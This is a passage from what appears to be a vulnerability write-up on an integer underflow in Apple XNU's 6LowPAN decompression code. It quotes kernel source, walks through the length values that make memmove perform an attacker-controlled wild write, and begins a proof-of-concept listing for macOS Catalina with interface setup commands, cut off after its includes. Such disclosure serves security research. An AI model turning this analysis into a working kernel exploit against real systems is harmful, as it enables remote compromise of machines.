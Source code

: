 ```c
	return 0;
}
```

We can observe the following with this function:

1. It expects that there will always be at least 40 bytes IPv6 header `*hdrlen` available within the mbuf. 
2. It does not expect the payload size to be less than the header. 
3. ip_len is always 0. 

If we ignore all the potential out of bound reads :), we can use this issue for the following out of bound writes:

* An underflow in len leading to a huge value being passed to memmove (wild write).

Therefore if we set the len of the frame received to be 0x4 we end up with the following values being calculated in `frame802154_parse`:

`c` header length = 3
`frame->payload_len` = 1

We can then see that by setting `SICSLOWPAN_HC1_NH_UDP` we end up with the following values in `uncompress_hdr_hc1`:

`*hdroffset = SICSLOWPAN_HC1_HDR_LEN;` i.e `*hdroffset = 3`

`*hdrlen = UIP_IPH_LEN;` i.e. `*hdrlen = 40`

`sizeof(struct ip6_hdr) = 40`

Therefore, when we return back to `sixxlowpan_uncompress` function:

```c
	/*
		 * hdroffset is the size of the compressed header
		 * -- i.e. when the untouched data starts
		 *
		 * hdrlen is the size of the decompressed header
		 * that takes the place of compressed header of size hdroffset
		 */
		memmove(payload + hdrlen,
		    payload + hdroffset,
		    ieee02154hdr->payload_len - hdroffset);
		memcpy(payload, hdrbuf, hdrlen);
```

We have a write at payload + 40 (in the `mc` mbuf cluster, of data controlled by an attacker from the source payload buffer, of ieee02154hdr->payload_len - 3 = -2 length.  

## POC 1 - Underflow

```c
/***

Apple XNU 6LowPAN POC
Catalina 10.15.4

POC 1: Wild memmove trigger with an underflow. 

Run this on target machine (or local system if testing locally):
sudo ifconfig 6lowpan create
sudo ifconfig 6lowpan0 up
sudo ifconfig 6lowpan0 6lowpansetdev en0

***/

#include <sys/types.h>
#include <sys/uio.h>
```